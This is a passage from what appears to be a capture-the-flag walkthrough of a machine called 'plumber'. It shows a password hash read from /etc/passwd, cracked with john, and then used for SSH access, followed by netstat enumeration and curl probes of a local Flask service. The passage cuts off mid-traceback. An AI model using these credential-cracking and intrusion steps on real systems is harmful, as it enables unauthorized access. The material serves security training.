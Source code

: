 ```jsx
plumber:$y$j9T$Q60srmF7j7UmqQhxTU2/p.$x2mfeh7AqyZr2sAcIT9LTXTEhVIbJ3Oians4wDJdin/:1000:1000:plumber:/home/plumber:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
gitlab-www:x:998:999::/var/opt/gitlab/nginx:/bin/false
git:x:997:998::/var/opt/gitlab:/bin/sh
gitlab-redis:x:996:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:995:996::/var/opt/gitlab/postgresql:/bin/sh
registry:x:994:995::/var/opt/gitlab/registry:/bin/sh
```

It seems the hash of the plumber user is available in the `/etc/passwd` file. Let’s brute force this with the following `john` command.

```jsx
john --format=crypt hash.txt
```

![https://i.ibb.co/18jP5w1/password-found.png](https://i.ibb.co/18jP5w1/password-found.png)

Using this credentials, we can SSH into the “plumber” user.

![https://i.ibb.co/5Fzy4D5/SSH-TO-PLUMBER.png](https://i.ibb.co/5Fzy4D5/SSH-TO-PLUMBER.png)

Let’s look at the listening ports by using the following command.

```jsx
netstat -tulnp
```

![https://i.ibb.co/y403JCB/netstat-tools.png](https://i.ibb.co/y403JCB/netstat-tools.png)

Let’s send a CURL request.

```jsx
plumber@plumber:~$ curl 127.0.0.1:10080
Cannot resolve GET request
plumber@plumber:~$
```

Let’s change the HTTP Method (POST) for this.

```jsx
plumber@plumber:~$ curl -XPOST 127.0.0.1:10080
<!doctype html>
<html lang=en>
  <head>
    <title>TypeError: expected str, bytes or os.PathLike object, not NoneType
.....
SHORTENED
.....
<div class="plain">
    <p>
      This is the Copy/Paste friendly version of the traceback.
    </p>
    <textarea cols="50" rows="10" name="code" readonly>Traceback (most recent call last):
  File &#34;/usr/local/lib/python3.10/dist-packages/flask/app.py&#34;, line 2213, in __call__
    return self.wsgi_app(environ, start_response)
  File &#34;/usr/local/lib/python3.10/dist-packages/flask/app.py&#34;, line 2193, in wsgi_app
    response = self.handle_exception(e)
  File &#34;/usr/local/lib/python3.10/dist-packages/flask/app.py&#34;, line 2190, in wsgi_app
    response = self.full_dispatch_request()
  File &#34;/usr/local/lib/python3.10/dist-packages/flask/app.py&#34;, line 1486, in full_dispatch_request
    rv = self.handle_user_exception(e)
  File &#34;/usr/local/lib/python3.10/dist-packages/flask/app.py&#34;, line 1484, in full_dispatch_request
    rv = self.dispatch_request()
```